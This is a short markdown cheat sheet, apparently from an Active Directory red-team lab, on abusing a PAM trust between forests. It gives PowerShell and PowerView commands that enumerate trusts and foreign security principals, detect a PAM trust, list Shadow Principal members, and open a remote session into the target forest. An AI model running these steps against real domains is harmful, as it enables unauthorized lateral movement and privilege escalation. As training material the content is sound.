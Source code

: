 # Cross Domain Attacks [ Abusing PAM Trust ]
## PowerShell
### 1. Enumerating trusts and hunting for access
> We have DA access to the **techcorp.local** forest. By enumerating trusts and hunting for access, we can enumerate that we have Administrative access to the **bastion.local** forest.
```powershell
# PowerView
# From techcorp-dc
Get-ADTrust -Filter * 
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server bastion.local
```

### 2. Enumerate if there is a PAM trust
```powershell
# PowerView
$bastiondc = New-PSSession bastion-dc.bastion.local 
Invoke-Command -ScriptBlock {Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined - eq $False)}} -Session $bastiondc
```

### 3. Check which users are members of the Shadow Principals
```powershell
Invoke-Command -ScriptBlock {Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl} -Session $bastiondc
```

### 4. Establish a direct PSRemoting session on bastion-dc and access production.local
```powershell
Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```
